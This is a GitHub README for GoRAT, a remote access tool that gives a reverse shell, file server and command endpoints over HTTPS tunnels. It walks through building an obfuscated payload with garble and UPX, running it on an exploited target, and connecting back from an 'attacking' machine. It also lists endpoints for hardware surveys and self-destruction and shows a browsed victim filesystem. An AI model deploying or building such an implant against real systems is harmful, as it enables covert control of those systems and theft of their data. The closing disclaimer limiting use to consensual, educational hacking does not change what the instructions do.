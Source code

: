 ```
 @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
!@@        @@!  @@@  @@!  @@@  @@!  @@@    @@!    
!@!        !@!  @!@  !@!  @!@  !@!  @!@    !@!    
!@! @!@!@  @!@  !@!  @!@!!@!   @!@!@!@!    @!!    
!!! !!@!!  !@!  !!!  !!@!@!    !!!@!!!!    !!!    
:!!   !!:  !!:  !!!  !!: :!!   !!:  !!!    !!:    
:!:   !::  :!:  !:!  :!:  !:!  :!:  !:!    :!:    
 ::: ::::  ::::: ::  ::   :::  ::   :::     ::    
 :: :: :    : :  :    :   : :   :   : :     :     
```
![GitHub](https://img.shields.io/github/license/JustinTimperio/GoRAT)
[![Go Reference](https://pkg.go.dev/badge/github.com/JustinTimperio/GoRAT.svg)](https://pkg.go.dev/github.com/JustinTimperio/GoRAT)
![Go Report Card](https://goreportcard.com/badge/github.com/JustinTimperio/GoRAT)
[![Codacy Badge](https://app.codacy.com/project/badge/Grade/d343e4d027164076a630448e3102fbf7)](https://www.codacy.com/gh/JustinTimperio/GoRAT/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=JustinTimperio/GoRAT&amp;utm_campaign=Badge_Grade)

GoRAT(Go Remote Access Tool) is an extremely powerful yet simple reverse shell, file server, and control plane using HTTPS reverse tunnels as a transport mechanism. (GoRAT is not anonymous and designed for CTF players, Go enthusiasts, and security experts.)
### Supported Distros:

| 64Bit Distros       | 32Bit Distros       |
|---------------------|---------------------|
| Linux               | Linux               | 
| FreeBSD             | FreeBSD             |
| OpenBSD             | OpenBSD             |
| Linux ARM           | Linux ARM           | 
| FreeBSD ARM         | FreeBSD ARM         |
| OpenBSD ARM         | OpenBSD ARM         |
| Linux MIPS          | Linux MIPS          |
| MacOS               | Windows (kinda)     |
| Windows (kinda)     |                     |

# Installing and Building

1. Set up a full GoLang build environment
2. Install [UPX](https://upx.github.io/) and run `go install mvdan.cc/garble`
3. Fill out `config.sh` and run `./build_payload.sh`
4. Transfer the `server` folder to your "attacking" machine, install [bc](https://linux.die.net/man/1/bc) and run `./start_server.sh`
5. Exploit your system and run the binary
6. Connect to the "target" via normal ssh from the "attacking" machine


# Chisel Server Usage
GoRAT uses the standard release binaries provided by the [chisel project](https://github.com/jpillora/chisel/releases). The server requires a number of configure options and has fairly verbose logging. For this reason a small shell script is provided to start and parse the output of chisel for easy use. To use it, run the following:
1. `cd server` 
2. `./start_server.sh` 

As clients connect you will see a log like this. We will use this log to access each clients SSH Server, HTTP File Server, and HTTP Control Server.
```
mr.robot@localhost:~# ./start_server.sh 
Starting Chisel Server on Port 1337
=============================================
Session #1 | Control Server Mounted On: 27818
Session #1 | SSH Server Mounted On: 27819
=============================================
Session #2 | Control Server Mounted On: 33132
Session #2 | SSH Server Mounted On: 33133

```

# Payload Usage
As with many Go binaries, client executables require zero configure and simply need to be executed. In its current state GoRAT does not include any methods of persistence so if you would like to make it a service, you will need to do so by your own methods.

The payload also uses [garble](https://github.com/burrowers/garble) to produce a binary that works as well as a regular build, but has as little information about the original source code as possible.

## SSH Server (Linux, FreeBSD, Darwin, OpenBSD)
Using the logs we can connect to clients directly via ssh using our standard unix OpenSSH package.
```
ssh localhost -p ####
```

## WSSH Windows (The Problem Child)
*WARNING THE WINDOWS SHELL IS TERRIBLE, THIS WAS JUST AN EXPERIMENT*

Please check out this thread: https://github.com/creack/pty/pull/109#issuecomment-864673714

When connecting to Windows hosts the following command will not work as GoRAT does not have a Windows PTY. For Windows systems we connect using a custom wrapper written for GoRAT.

```
cd wssh
go build wssh.go
./wssh.go
```

## Control Server
The control server is a simple http mechanism that translates `/some-page` to internal go commands. In this way, requesting a webpage results directly in the execution of code on a client system. While this mechanism is not very sophisticated, it is extremely reliable and performant. The api current has the following commands:

1. `http://localhost:port/` - Returns a status code of `OK` if the host is online and responding to requests
2. `http://localhost:port/hardware` - Reports basic hardware survey of device in json 
3. `http://localhost:port/stop` - Closes the client payload WITHOUT self-destruction
4. `http://localhost:port/uninstall` - Terminates the client payload AND self-destructs

## File Server
Each client's file server can be accessed on the same port as the control server. The file server is, from a technical standpoint, directly part of Control Server. Files and directories can be accessed at `http://localhost:####/fs/` through your browser or tools like `wget` and `curl`.


```
[robot@localhost ~]$ curl localhost:14963/fs/
<pre>
<a href="bin">bin</a>
<a href="boot/">boot/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="keybase/">keybase/</a>
<a href="lib">lib</a>
<a href="lib64">lib64</a>
<a href="lost+found/">lost+found/</a>
<a href="mnt/">mnt/</a>
<a href="opt/">opt/</a>
<a href="proc/">proc/</a>
<a href="root/">root/</a>
<a href="run/">run/</a>
<a href="sbin">sbin</a>
<a href="srv/">srv/</a>
<a href="sys/">sys/</a>
<a href="test/">test/</a>
<a href="tmp/">tmp/</a>
<a href="usr/">usr/</a>
<a href="var/">var/</a>
</pre>
```


# Architecture
GoRAT uses [chisel](https://github.com/jpillora/chisel) and [gliderlabs ssh server](https://github.com/gliderlabs/ssh) to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”. 
![image](goRAT_Architecture.jpg)


# Disclaimer
Use of GoRAT for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this software. Only use for educational purposes / ethical hacking. Multiple tools in this software include their own license.
